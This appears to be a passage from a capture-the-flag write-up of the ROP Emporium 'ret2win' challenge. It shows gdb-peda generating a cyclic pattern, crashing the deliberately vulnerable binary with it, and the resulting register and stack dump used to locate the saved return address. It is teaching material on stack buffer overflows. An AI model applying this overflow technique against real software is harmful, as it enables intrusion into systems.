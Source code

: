 Creating pattern of size 100:

```python
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
```

Running the program, and sending our pattern 

```python
gdb-peda$ r
Starting program: /home/wayell/Desktop/ROPEmporium/1.ret2win/ret2win 
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
Thank you!

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0xb ('\x0b')
RBX: 0x400780 (<__libc_csu_init>:	push   r15)
RCX: 0x7ffff7ed21e7 (<__GI___libc_write+23>:	cmp    rax,0xfffffffffffff000)
RDX: 0x0 
RSI: 0x7ffff7fad723 --> 0xfaf4c0000000000a 
RDI: 0x7ffff7faf4c0 --> 0x0 
RBP: 0x6141414541412941 ('A)AAEAAa')
RSP: 0x7fffffffdfa8 ("AA0AAFAAbAA1AAGA\263\200\336\367\377\177")
RIP: 0x400755 (<pwnme+109>:	ret)
R8 : 0xb ('\x0b')
R9 : 0x2 
R10: 0xfffffffffffff27a 
R11: 0x246 
R12: 0x4005b0 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffe0a0 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x40074e <pwnme+102>:	call   0x400550 <puts@plt>
   0x400753 <pwnme+107>:	nop
   0x400754 <pwnme+108>:	leave  
=> 0x400755 <pwnme+109>:	ret    
   0x400756 <ret2win>:	push   rbp
   0x400757 <ret2win+1>:	mov    rbp,rsp
   0x40075a <ret2win+4>:	mov    edi,0x400926
   0x40075f <ret2win+9>:	call   0x400550 <puts@plt>
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdfa8 ("AA0AAFAAbAA1AAGA\263\200\336\367\377\177")
0008| 0x7fffffffdfb0 ("bAA1AAGA\263\200\336\367\377\177")
0016| 0x7fffffffdfb8 --> 0x7ffff7de80b3 (<__libc_start_main+243>:	mov    edi,eax)
0024| 0x7fffffffdfc0 --> 0x100000060 
0032| 0x7fffffffdfc8 --> 0x7fffffffe0a8 --> 0x7fffffffe3b5 ("/home/wayell/Desktop/ROPEmporium/1.ret2win/ret2win")
0040| 0x7fffffffdfd0 --> 0x1f7fa9618 
0048| 0x7fffffffdfd8 --> 0x400697 (<main>:	push   rbp)
0056| 0x7fffffffdfe0 --> 0x400780 (<__libc_csu_init>:	push   r15)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
```